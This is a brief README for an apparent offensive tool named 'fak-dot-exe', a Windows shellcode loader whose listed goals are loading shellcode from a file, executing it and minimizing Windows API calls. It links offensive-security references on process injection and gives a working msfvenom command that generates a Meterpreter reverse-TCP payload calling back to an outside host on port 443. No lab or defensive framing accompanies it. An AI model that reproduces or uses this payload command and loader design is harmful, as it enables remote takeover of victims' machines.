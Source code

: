 # fak-dot-exe
Papi secret sauce 💦

## Key Components
1. how to load shellcode from a file
2. how to execute it
3. How to minimize Windows Api call

## References
- [Read and Execute Shellcode from a .txt File](https://stackoverflow.com/questions/17842499/read-and-execute-shellcode-from-a-txt-file)
- [https://www.ired.team/offensive-security/code-injection-process-injection/writing-and-compiling-shellcode-in-c](https://www.ired.team/offensive-security/code-injection-process-injection/writing-and-compiling-shellcode-in-c)
- [Loading and Executing Shellcode From PE Resources](https://www.ired.team/offensive-security/code-injection-process-injection/loading-and-executing-shellcode-from-portable-executable-resources)
- [Dynamic Shellcode Execution](https://blog.f-secure.com/dynamic-shellcode-execution/)

### Embedding Shellcode as Resource
```
msfvenom -p windows/meterpreter_reverse_tcp LHOST=192.168.183.129 LPORT=443 > meterpreter.bin
```
